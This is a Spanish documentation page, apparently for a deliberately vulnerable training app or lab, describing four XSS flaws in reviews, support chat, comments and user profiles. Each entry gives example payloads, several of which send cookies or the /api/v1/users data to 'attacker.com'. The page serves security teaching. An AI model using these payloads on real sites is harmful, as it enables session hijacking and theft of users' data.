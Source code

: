 ```yaml
---
layout: default
title: Cross-Site Scripting (XSS)
nav_order: 4
parent: Vulnerabilidades
---
```


# Cross-Site Scripting (XSS)

## 4.1 XSS en Sistema de Reseñas
- **Ubicación**: `/api/v1/products/{id}/reviews`
- **Descripción**: Sistema de reseñas permite inyección de HTML/JavaScript
- **Pasos**:
  1. Acceder a un producto
  2. Agregar una reseña con código malicioso
  3. La reseña se renderiza sin sanitización
- **Payloads de ejemplo**:
  ```javascript
  <script>alert(document.cookie)</script>
  <img src=x onerror="fetch('http://attacker.com/'+document.cookie)">
  <svg onload="alert(1)">
  ```
- **Criterio de éxito**: Script ejecutado al ver la reseña
- **Impacto**: Robo de sesión, defacement, robo de datos

## 4.2 XSS en Chat de Soporte
- **Ubicación**: `/support`
- **Descripción**: Chat de soporte vulnerable a XSS
- **Pasos**:
  1. Acceder al chat de soporte
  2. Enviar mensaje con payload XSS
  3. El mensaje se renderiza sin sanitización
- **Payloads de ejemplo**:
  ```javascript
  <script>localStorage.setItem('chatScript', 'alert(1)')</script>
  <img src=x onerror="eval(localStorage.getItem('chatScript'))">
  ```
- **Criterio de éxito**: Script ejecutado en el chat
- **Impacto**: Ejecución de código arbitrario, robo de datos

## 4.3 XSS en Comentarios de Productos
- **Ubicación**: `/api/v1/products/{id}/comments`
- **Descripción**: Comentarios sin sanitizar permiten XSS
- **Pasos**:
  1. Agregar comentario en producto
  2. Insertar payload XSS
- **Payloads de ejemplo**:
  ```javascript
  <script>alert(document.cookie)</script>
  <img src=x onerror="fetch('http://attacker.com/'+document.cookie)">
  <svg onload="alert(1)">
  ```
- **Criterio de éxito**: Script ejecutado al ver comentario
- **Impacto**: Robo de sesión, defacement

## 4.4 XSS en Perfil de Usuario
- **Ubicación**: `/api/v1/users/profile`
- **Descripción**: Campos de perfil permiten HTML/JavaScript
- **Pasos**:
  1. Editar perfil
  2. Insertar payload en campos de perfil
  3. El perfil se renderiza sin sanitización
- **Payloads de ejemplo**:
  ```javascript
  <script>document.location='http://attacker.com/'+document.cookie</script>
  <img src=x onerror="fetch('/api/v1/users').then(r=>r.json()).then(d=>fetch('http://attacker.com/'+btoa(JSON.stringify(d))))">
  ```
- **Criterio de éxito**: HTML/JavaScript ejecutado en perfil
- **Impacto**: Ataque a otros usuarios, robo de datos sensibles
